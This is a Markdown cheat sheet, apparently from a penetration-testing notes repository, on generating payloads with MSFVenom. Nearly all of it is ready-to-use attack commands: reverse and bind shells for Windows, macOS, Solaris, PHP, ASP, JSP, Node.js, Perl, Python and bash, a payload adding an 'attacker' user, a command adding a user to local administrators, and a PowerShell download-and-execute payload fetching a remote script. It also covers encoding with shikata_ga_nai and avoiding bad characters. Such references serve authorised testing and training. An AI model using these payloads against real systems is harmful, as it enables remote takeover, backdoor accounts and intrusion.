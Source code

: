 # MSFVenom

## Usage
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>


## Commands
### Payloads
- msfvenom -l payloads 

### Encoders
- msfvenom -l encoders 


### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
- EXITFUNC=thread
- PrependSetuid=True #Use this to create a shellcode that will execute something with SUID


## Shells
### Reverse 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe


## Payloads
### Add user
- msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
- msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
- msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
